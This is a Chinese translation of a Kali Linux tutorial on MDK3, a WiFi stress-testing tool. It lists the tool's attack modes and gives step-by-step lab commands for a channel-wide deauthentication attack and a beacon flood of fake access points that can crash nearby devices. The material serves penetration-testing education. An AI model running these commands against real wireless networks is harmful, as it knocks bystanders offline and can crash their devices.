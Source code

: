 # 使用 MDK3、信标泛洪和解除认证攻击进行 WiFi 压力测试。

> 原文：<https://kalilinuxtutorials.com/mdk3/>

[![](img//744fa22aa5b7982ed4e951358d17ba9b.png)](https://i2.wp.com/kalilinuxtutorials.com/wp-content/uploads/2015/09/mdk-feature.jpg?fit=1500%2C1000&ssl=1)

MDK3 是一个概念验证工具。它用于压力测试 802.11 网络(wifi)。它包括我们可以用来进行测试的各种方法。一些主要方法是信标泛洪、去认证、WPA- dos 等。在 pentests 中，mdk 用于测试具有 802.11 实现的网络基础设施，并确保符合标准。

## **选项**

```
Syntax : mdk3 <interface> <testmode> <test-options>
```

```
Mdk3 –help <test mode> : for test options

TEST MODES:

b   - Beacon Flood Mode

Sends beacon frames to show fake APs at clients. This can sometimes crash network scanners and even drivers!

a   - Authentication DoS mode

Sends authentication frames to all APs found in range. Too much clients freeze or reset some APs.

p   - Basic probing and ESSID Bruteforce mode

Probes AP and check for answer, useful for checking if SSID has been correctly decloaked or if AP is in your adaptors sending range SSID Brute-forcing is also possible with this test mode.

d   - Deauthentication / Disassociation Amok Mode

Kicks everybody found from AP 
m   - Michael shutdown exploitation (TKIP)

Cancels all traffic continuously 
x   - 802.1X tests

w   - WIDS/WIPS Confusion

Confuse/Abuse Intrusion Detection and Prevention Systems 
f   - MAC filter bruteforce mode

This test uses a list of known client MAC Adresses and tries to authenticate them to the given AP while dynamically changing its response timeout for best performance. It currently works only on APs who deny an open authentication request properly 
g   - WPA Downgrade test

Deauthenticates Stations and APs sending WPA encrypted packets. With this test you can check if the sysadmin will try setting his network to WEP or disable encryption. 
```

* * *

## **实验 1:取消通道中所有客户端的身份验证**

在本实验中，我们尝试拒绝向一个通道中的所有客户端提供服务。这被称为去认证测试。

**步骤 1** :首先我们必须确保监视器接口已启用。

```
Command: iwconfig
```

这显示了所有的无线接口及其无线属性。

[![mdk3](img//0221562f19d101d3726ce3ab008bbb48.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-1/#main)

Wireless Devices & Properties

**第二步**:启动监控界面

```
Command : airmon-ng start wlan0<your interface here>
```

[![mdk3](img//05bad154c6e4426d4733a5db8ae89cce.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-2/#main)

Starting monitor Interface.

**第三步**:查看附近所有的接入点&确定我们的目标。

```
Command: airodump-ng mon0
```

这将显示所有 wifi 接入点，包括附近隐藏的接入点。

[![mdk3](img//36fd9a94a1bc9cf4ada523aabc93cef3.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-3/#main)

Starting Airodump & Selecting Target

从中我们获得了很多信息。接入点、mac IDs、客户端、每个 AP 广播的信道等。这里只有一个 AP 是我们的目标。我们可以从上面的图像中看到，它正在第 6 频道运行。所以让我们对第六频道发起攻击。

```
Command: mdk3 mon0 d -c 6
```

[![mdk3](img//a36c38f95a3d41da947ac67a7410e4e0.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-4/#main)

De-authentication Attack

* * *

## **实验 2:信标泛滥**

本实验的特点是以极快的速度在不同的 SSIDs(广播名称)中创建假接入点。这可能会导致某些客户端或无线中继接入点或范围扩展器等崩溃。

**步骤 1** :确保监控界面在您的系统中运行。请参见之前的实验。

**第二步**:发动攻击

```
Command : mdk3 mon0 b
```

[![mdk3](img//5767b591ae4721cf818ff5593af8389b.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-5/#main)

Beacon Flood Attack

这是一部安卓手机，展示了我们制作的所有接入点。它很可能会崩溃

[![mdk3](img//f0856a7967b7668950a6af2b051bb361.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-6/#main)

Fake APs appearing on nearby devices.

参考:[http://tools.kali.org/wireless-attacks/mdk3](http://tools.kali.org/wireless-attacks/mdk3)